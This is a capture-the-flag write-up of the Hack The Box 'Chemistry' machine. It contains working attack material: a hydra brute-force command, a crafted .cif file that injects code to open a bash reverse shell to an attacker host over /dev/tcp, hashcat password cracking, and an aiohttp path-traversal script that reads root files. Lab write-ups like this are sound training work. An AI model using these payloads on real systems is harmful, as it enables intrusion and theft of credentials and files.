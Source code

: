 
[[HTB]] : [[Machines]]

**Date:** 08/01/25  
**Target IP:** 10.10.11.38

---

### **Initial Scanning**

**Nmap Results:**

- **22/tcp**: OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
- **5000/tcp**: Werkzeug httpd 3.0.3 (Python 3.9.5)

**Nikto Scan:**

- Detected outdated Python version: **3.9.5** (latest is at least 3.9.6).

---

### **Exploration and Enumeration**

**Port 5000 (HTTP):**

- Navigated to the website hosted on port 5000.
- Found **Login** and **Register** pages.
- Discovered a vulnerability on the **Register page**:
    - "User exists" prompt enables **username enumeration**.
    - Confirmed the existence of the `admin` user.

---

### **Exploitation**

1. **Brute Forcing Login:**
    
    - Attempted brute forcing with [[hydra]] :
        
        ```
        hydra -l admin -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt 10.10.11.38 -s 5000 http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials" -I -vV
        ```
        
    - Brute forcing was unsuccessful.
2. **File Upload Vulnerability:**
    
    - Registered a new user and accessed a file upload functionality for `.cif` files.
    - Exploited a known vulnerability in `.cif` file handling in Python:
        - Reference: [GHSA-vgv8-5cpj-qj2f](https://github.com/advisories/GHSA-vgv8-5cpj-qj2f)
    - Uploaded a malicious `.cif` file to execute a **bash reverse shell**.
    
    **Malicious .cif File Content:**
    
    ```plaintext
	data_5yOhtAoR
	_audit_creation_date            2018-06-08
	_audit_creation_method          
	
	loop_
	_parent_propagation_vector.id
	_parent_propagation_vector.kxkykz
	k1 [0 0 0]
	
	_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/<attacker ip>/1234 0>&1\'");0,0,0'
	
	
	_space_group_magn.number_BNS  62.448
	_space_group_magn.name_BNS
    ```
    
    - Launched a **Netcat listener** (`nc -nvlp 1234`) to capture the reverse shell.

---

### **Post-Exploitation**

1. **Access Gained:**
    
    - Obtained access to the `app` user via the reverse shell.
2. **App Enumeration:**
    
    - Found sensitive information in `app.py`:
        - Flask secret key: `MyS3cretCh3mistry4PP`
        - SQLite DB URL: `sqlite:///database.db`
    - Transferred the database file to the local machine using a Python HTTP server.
3. **Database Analysis:**
    
    - Analyzed the SQLite database using an online viewer ([SQLite Viewer](https://inloop.github.io/sqlite-viewer/)).
    - Found a table with MD5-hashed passwords:
        - `63ed86ee9f624c7b14f1d4f43dc251a5` (hash for the `rosa` user).
4. **Password Cracking:**
    
    - Cracked the hash using `hashcat`:
        
        ```
        hashcat -m 0 -a 0 rosa_hash /usr/share/wordlists/rockyou.txt
        ```
        
        - **Cracked Password:** `unicorniosrosados`
5. **SSH Access to `rosa`:**
    
    - Logged in via SSH:
        
        ```
        ssh rosa@10.10.11.38
        ```
        
    - Retrieved the user flag:
        
        ```
        rosa@chemistry:~$ cat user.txt
        e5778c455c79cd3b24a14dc42cd897b7
        ```
        

---

### **Privilege Escalation**

1. **Port Forwarding:**
    
    - Discovered a service running on **localhost:8080**.
    - Forwarded the port:
        
        ```
        ssh -L 4321:localhost:8080 rosa@10.10.11.38
        ```
        
    - Accessed an analytics page with a server banner indicating:
        - `aiohttp/3.9.1`
2. **File Disclosure Exploit:**
    
    - Identified a vulnerability in `aiohttp/3.9.1`.
        - Reference: [CVE-2024-23334-PoC](https://github.com/z3rObyte/CVE-2024-23334-PoC)
    - Modified the exploit to fetch `/root/root.txt`.
    
    **Exploit Script:**
    
    ```bash
    url="http://localhost:8080"
    payload="/assets/"
    file="root/root.txt"
    
    for ((i=0; i<15; i++)); do
        payload+="../"
        status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
        if [[ $status_code -eq 200 ]]; then
            curl -s --path-as-is "$url$payload$file"
            break
        fi
    done
    ```
    
3. **Root Flag Obtained:**
    
    - Successfully retrieved the root flag:
        
        ```
        25eeadc405adda911ccb96789fc5b82f
        ```
        

---

### **Summary**

- **User Flag:** `e5778c455c79cd3b24a14dc42cd897b7`
- **Root Flag:** `25eeadc405adda911ccb96789fc5b82f`
- **Key Vulnerabilities Identified:**
    - Username enumeration on the Register page.
    - File upload vulnerability allowing remote code execution.
    - Outdated `aiohttp` version with file disclosure vulnerability.
